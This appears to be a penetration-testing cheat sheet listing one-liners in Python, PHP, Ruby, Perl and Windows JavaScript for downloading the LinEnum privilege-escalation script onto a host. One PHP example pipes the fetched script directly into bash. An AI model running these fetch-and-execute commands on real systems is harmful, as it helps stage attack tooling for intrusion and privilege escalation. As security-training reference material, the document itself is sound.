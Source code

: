 #### Python 3 file download
```Shell
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

#### PHP file download 
```Shell
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
`file_get_contents` downloads the file. `file_put_contents` says where to save it. `-r` allows you to do everything in one line. An alternative to `file_get_contents() `and `file_put_contents()` is the` fpopen()` module.

#### PHP file download using fopen
```Shell
php -r 'const BUFFER = 1024; $fremote =  
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

#### PHP file download piped to bash
```Shell
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

#### Ruby file download
```Shell
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

#### Perl file download
```Shell
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

#### JavaScript Code to be executed on Upload from a Windows Host
```JavaScript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

